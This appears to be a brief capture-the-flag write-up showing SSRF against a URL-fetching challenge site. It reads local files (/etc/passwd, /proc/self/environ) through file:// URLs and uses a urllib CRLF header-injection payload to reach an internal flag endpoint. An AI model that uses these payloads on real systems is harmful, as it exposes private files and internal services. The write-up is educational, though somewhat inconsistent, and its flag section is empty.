


# Visit

Created this cool website that can get the html of any website!

https://visit.telenor.live

# Writeup

Quickly tried `file:///etc/passwd` and got the flag.



Now where is the flag file? I tried `file:///flag` and many other files. After a bit I found out that we have the source files.

It seems to set a flag in the envirnoment, so I tried `file:///proc/self/environ` and got:

```bash
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin<nul>HOSTNAME=dbf2c416be0f<nul>LANG=C.UTF-8<nul>GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D<nul>PYTHON_VERSION=3.7.3<nul>PYTHON_PIP_VERSION=19.1.1<nul>HOME=/root<nul>
```

No help here. Finally I see the other docker container, it is an internal webpage on `http://visit_internal:8090/flag` which requires `secret` header to be set. After a bit of googling I find [this](https://bugs.python.org/issue36276) python vulnerability in `urllib.requests.urlopen` 

```
host = "10.251.0.83:7777?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123"
url = "http://" + host + ":8080/test/?test=a"
```

So it is using URL Injection


http://visit_internal:8090/flag HTTP/1.1%0D%0Asecret: SuPerSecRetPasSwOrd:8090/flag




# Flag

```

```